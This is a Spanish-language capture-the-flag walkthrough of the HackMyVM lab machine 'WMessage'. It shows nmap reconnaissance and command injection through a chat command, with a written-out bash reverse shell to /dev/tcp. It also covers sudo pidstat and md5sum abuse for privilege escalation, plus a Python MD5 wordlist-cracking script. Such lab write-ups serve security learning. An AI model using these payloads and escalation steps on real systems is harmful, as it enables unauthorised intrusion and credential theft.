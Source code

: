 # WMessage HackMyVM

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.32

## Nmap
Realizamos el scaneo basico
```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.0.2.32   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-19 00:32 EDT
Nmap scan report for 10.0.2.32
Host is up (0.000091s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:5F:89:B9 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.75 seconds


❯ sudo nmap -Pn -sS -n --min-rate 5000 -A -p 22,80 10.0.2.32
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-19 00:40 EDT
Nmap scan report for 10.0.2.32
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 628e95581eee94d1560ee551f5453843 (RSA)
|   256 45a87e567fdfb083656c886819a4866c (ECDSA)
|_  256 bc5424a60a8b6d34dca6ab8098ee1ff7 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
| http-title: Login
|_Requested resource was /login?next=%2F
|_http-server-header: Apache/2.4.54 (Debian)
MAC Address: 08:00:27:5F:89:B9 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.24 ms 10.0.2.32

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.62 seconds
```
## 80 http

Vemos que esta corriendo el puerto 22 y el puerto 80 es un login y tiene la opcion de registrarse.
Procedo a registrarme en la pagina

![](img/wmessage1.png)

Esto nos lleva a una mensajeria y nos dice este mensaje
```
Master: Hi, This is finally working. I spent a month on this messaging system 
I hope there are no bugs in it. use !mpstat to get the status of the server.
```

Asi que rapidamente intente inyectar HTML y XSS pero no tuve exito. Al final se me dio por probar 
con el comando que nos dice 
``!mpstat``
```
Server: Linux 5.10.0-19-amd64 (MSG) 03/19/23 _x86_64_ (3 CPU) 04:45:32 
CPU %usr %nice %sys %iowait %irq %soft %steal %guest %gnice %idle 04:45:32 all 3.52 0.00 2.07 0.05 0.00 0.20 0.00 0.00 0.00 94.16 
```

Si le agregas un ``; <comando>`` al final seguido de un comando puedes realizar RCE.

![](img/wmessage2.png)

## Reverse Shell

Enviando este mensaje me genero una shell ``!mpstat;bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'``

![](img/wmessage3.png)
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.32] 43408
bash: cannot set terminal process group (398): Inappropriate ioctl for device
bash: no job control in this shell
www-data@MSG:/$ 
```

Nos mejoramos la shell a una TTY

```bash
www-data@MSG:/$ script /dev/null -c bash
Script started, output log file is '/dev/null'.

www-data@MSG:/$ ^Z
zsh: suspended  nc -lvnp 443
                                                
❯ stty raw -echo;fg                   
[1]  + continued  nc -lvnp 443

www-data@MSG:/$ export TERM=xterm SHELL=bash
```

Dentro de ``/var/www`` encontramos un ROOTPASS
Actualmente no podemos leerlo, pero quiza nos sirva mas adelante

```bash
www-data@MSG:~$ ls -la
total 16
drwxr-xr-x  3 root     root     4096 Nov 21 19:05 .
drwxr-xr-x 12 root     root     4096 Nov 20 06:48 ..
-rw-r-----  1 root     root       12 Nov 21 19:00 ROOTPASS
drwxrwxr--  5 www-data www-data 4096 Nov 18 13:11 html
```

## Escalando a usuario

Scaneando un poco la maquina vemos que el usuario messagemaster puede correr pidstat
https://gtfobins.github.io/gtfobins/pidstat/

```bash
www-data@MSG:~$ sudo -l
Matching Defaults entries for www-data on MSG:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on MSG:
    (messagemaster) NOPASSWD: /bin/pidstat
```

Siguiendo los pasos de gtfobins

```bash
www-data@MSG:/$ sudo -u messagemaster /bin/pidstat -e /bin/sh -i
sudo -u messagemaster /bin/pidstat -e /bin/sh -i
Linux 5.10.0-19-amd64 (MSG) 	03/19/23 	_x86_64_	(3 CPU)

05:25:07      UID       PID    %usr %system  %guest   %wait    %CPU   CPU  Command
05:25:07     1000      1035    0.00    0.00    0.00    0.00    0.00     0  sh
/bin/sh: 0: can't access tty; job control turned off
$ www-data@MSG:/$ cd /home/messagemaster
$ id
uid=1000(messagemaster) gid=1000(messagemaster) groups=1000(messagemaster),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth)
```

### User flag

```bash
$ cat User.txt
*********************1b8d13d60ab
```

## Escalando a Root

```bash
$ sudo -l
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum
```

Y aqui es donde interviene el ROOTPASS que encontramos antes. Como root corremos el md5sum para obtener un hash del ROOTPASS y despues descifrarlo

```bash
$ sudo -u root /bin/md5sum /var/www/ROOTPASS
**********************4a4b682f48  /var/www/ROOTPASS
```

### Python scripting

Intente de todas las manera en crackstation e intentandolo con John pero no llegue a nada

Despues de mucho tiempo me rendi y vi que otras personas habian creado un script en python para que recorra cada linea de john y lo compare con el hash

Para no simplemente copiar y no dar ideas de como hacer el script, podemos probar utilizando a ChatGPT como una herramienta mas que interesante para estos temas.

Despues de tener varias pruebas y errores logramos llegar a un script funcional y luego le agregamos barras de progreso y este fue el resultado

```python
❯ cat py.py     
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: py.py
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ import hashlib
   2   │ from tqdm import tqdm
   3   │ 
   4   │ # Abre el archivo de diccionario
   5   │ with open("/usr/share/wordlists/rockyou.txt", "r", encoding="ISO-8859-1") as f:
   6   │     # Cuenta el número total de líneas en el archivo
   7   │     total_lines = sum(1 for _ in f)
   8   │ 
   9   │ # Vuelve a abrir el archivo de diccionario
  10   │ with open("/usr/share/wordlists/rockyou.txt", "r", encoding="ISO-8859-1") as f:
  11   │     # Recorre línea por línea con una barra de progreso
  12   │     for line in tqdm(f, total=total_lines, desc="Probando contraseñas"):
  13   │         # Elimina el salto de línea al final
  14   │         password = line.strip()
  15   │         # Agrega el salto de línea al final
  16   │         password += '\n'
  17   │         # Calcula el hash MD5 de la contraseña
  18   │         hashed_password = hashlib.md5(password.encode()).hexdigest()
  19   │         # Compara con tu hash deseado
  20   │         if hashed_password == "**********************4a4b682f48":
  21   │             print("La contraseña es:", password.strip())
  22   │             break
  23   │     else:
  24   │         print("No se encontró ninguna coincidencia.")
  25   │ 
  26   │ 
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
```bash                                 
❯ python3 py.py
Probando contraseñas:  75%|█████████████████████████████████████████████████████████████████████████████████████▏                           | 10806985/14344392 [00:10<00:03, 962056.30it/s]
La contraseña es: ***********
Probando contraseñas:  75%|█████████████████████████████████████████████████████████████████████████████████████▎                           | 10827009/14344392 [00:10<00:03, 985126.32it/s]
```

### Root flag

```bash
❯ ssh root@10.0.2.32

root@MSG:~# ls
Root.txt
root@MSG:~# cat Root.txt
***********************34f8b8b0f
```
